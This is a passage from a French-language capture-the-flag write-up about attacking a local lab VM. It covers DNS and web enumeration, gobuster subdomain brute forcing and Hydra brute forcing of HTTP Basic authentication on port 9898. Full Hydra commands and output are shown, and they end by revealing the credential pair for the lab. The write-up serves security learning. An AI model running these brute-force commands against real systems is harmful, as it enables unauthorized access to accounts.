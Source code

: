 ```plain
;; WHEN: Wed Feb 09 17:44:10 CET 2022 
;; MSG SIZE  rcvd: 102
```

La réponse est donc non. Je me suis ensuite penché sur le port 80 et j'ai trouvé via énumération le dossier */website* qui correspond à une copie de [ce template de facture en HTML](https://github.com/sparksuite/simple-html-invoice-template).  

Contenu statique donc rien à en tirer là non plus. Il ne nous reste qu'à voir ce qu'on peut tirer du port 9898 qui sert un Apache.  

On tombe sur une demande d'authentification Basic mais à ce stade on ne dispose ni d'un nom d'utilisateur ni d'un mot de passe. J'ai testé les couples classiques (*admin / admin*, *test / test*, etc) mais aucun n'a fonctionné.  

On serait tenté de lancer Hydra dessus avec une liste d'utilisateurs, une bonne wordlists pour les mots de passe et un gros parallélisme :  

```plain
$ hydra -t 50 -L unix_users.txt -P rockyou.txt http-head://192.168.56.26:9898
[STATUS] 25113.00 tries/min, 25113 tries in 00:01h, 2409831903 to do in 1599:20h, 50 active
```

Okayyyyyy ! Non, je n'ai pas 1600 heures à tuer...  

J'ai alors refouillé sur ce satané port 80 en énumérant toutes les extensions de fichiers qui me semblaient intéressantes, j'ai brute forcé les hôtes virtuels (sans suffixe puisque l'on n'en a pas), brute forcé aussi les noms d'hôtes sur le DNS :  

```bash
$ gobuster dns -d '' -r 192.168.56.26 -w alexaTop1mAXFRcommonSubdomains.txt
```

J'ai utilisé l'astuce consistant à calculer l'adresse IPv6 link-local depuis l'adresse MAC, ce qui me donne *fe80::a00:27ff:fe6d:fe44* mais les ports ouverts étaient les même.  

J'ai écouté sur l'interface réseau comme c'était le cas pour [Snowtalks Medium](http://devloop.users.sourceforge.net/index.php?article264/solution-du-ctf-snowtalks-medium-de-iamv1nc3nt) mais ça n'a rien donné.  

A ce stade autant dire que la seule solution fut d'abandonner et ouvrir la VM pour voir ce qui cloche. J'ai ainsi découvert un fichier *.htpasswd* avec un hash associé à l'utilisateur *web*.  

C'était l'information qui nous manquait et dont on aurait du disposer pour éviter d'attendre 1600 heures !  

Rue du password
---------------

A vrai dire une fois qu'on dispose du nom d'utilisateur ce n'est pas la joie non plus :  

```plain
$ hydra -t 50 -l web -P rockyou.txt http-head://192.168.56.26:9898                     
Hydra v9.2 (c) 2021 by van Hauser/THC &amp; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-10 09:33:23 
[WARNING] You must supply the web page as an additional option or via -m, default path set to / 
[WARNING] http-head auth does not work with every server, better use http-get 
[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344387 login tries (l:1/p:14344387), ~286888 tries per task 
[DATA] attacking http-head://192.168.56.26:9898/ 
[STATUS] 25063.00 tries/min, 25063 tries in 00:01h, 14319324 to do in 09:32h, 50 active 
[STATUS] 26401.00 tries/min, 79203 tries in 00:03h, 14265184 to do in 09:01h, 50 active 
[STATUS] 24924.29 tries/min, 174470 tries in 00:07h, 14169917 to do in 09:29h, 50 active 
[STATUS] 26064.53 tries/min, 390968 tries in 00:15h, 13953419 to do in 08:56h, 50 active 
[STATUS] 26574.39 tries/min, 823806 tries in 00:31h, 13520581 to do in 08:29h, 50 active 
[9898][http-head] host: 192.168.56.26   login: web   password: webpassword 
1 of 1 target successfully completed, 1 valid password found 
```
